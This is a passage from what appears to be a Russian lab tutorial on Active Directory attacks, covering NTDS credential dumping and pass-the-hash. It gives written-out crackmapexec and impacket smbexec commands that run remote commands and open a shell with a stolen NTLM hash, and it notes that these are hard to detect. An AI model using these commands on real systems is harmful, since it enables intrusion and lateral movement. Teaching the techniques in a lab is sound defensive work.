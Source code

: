 В качестве вывода будет примерно следующая картинка:

---

![https://i.imgur.com/5e8qL39.png](https://i.imgur.com/5e8qL39.png)

https://i.imgur.com/5e8qL39.png

  

---

Будьте внимательны -- формат информации в этом выводе описан в строчке "dumping domain credentian"

---

NTDS мы анализируем с целью разобраться в структуре базы аутентификационых данных для объектов домена. После анализа бэкап удалять с кали не стоит, он пригодится на последующих занятиях, если вдруг мы случайно сломаем домен. `P.S. сломаем, и не случайно.`

---

### Этап 2. Path-the-hash

*Для выполнения данной части практики необходимы виртуальные машины Kali linux, win10 и DC1.*

Для выполнения атаки вида PtH нам понадобится учетная запись и её хэш пароля. С помощью такой атаки мы можем выполнять любые действия, доступные пользователю, не имея оригинала пароля.

### 2.1 Crackmapexec

Это набор python-скриптов для тестирования Windows окружения. Использует Windows API, поэтому обнаружить довольно сложно.

Самое базовое применение -- быстрое сканирование сети и обнаружение хостов, как либо взаимодействующих с протоколом smb:

> crackmapexec smb 192.168.10.0/24

Можно выполнять команды от имени пользователя на удаленной машине посредством командной строки:

> crackmapexec smb 192.168.10.201 -u Administrator -H hash -x whoami
> 
> - Где hash -- это NTLM хэш учетной записи (LM хэш в этом скрипте не используется, в отличие от скрипта smbexec, описанного далее).

Можно посмотреть и список сетевых папок, доступных конкретному пользователю:

> crackmapexec smb 192.168.10.201 -u Administrator -H hash --shares

А ещё в impacket есть интересная утилита **smbexec**, позволяющая запустить cmd windows для удаленной передачи команд, при этом практически [не оставляя следов](https://habr.com/ru/company/varonis/blog/514918/):

> python3 smbexec.py PT/administrator@192.168.10.200 -hashes aad3b435b51404eeaad3b435b51404ee:05df2fd1109e3d3b60f110965f6af128
> 
> - где testdomain -- имя домена,
> - administrator -- имя пользователя,
> - 192.168.10.200 -- адрес компьютера-жертвы
> - hashes -- спец флаг для использования хэша
> - последняя длинная фраза -- сам хэш в определенном формате
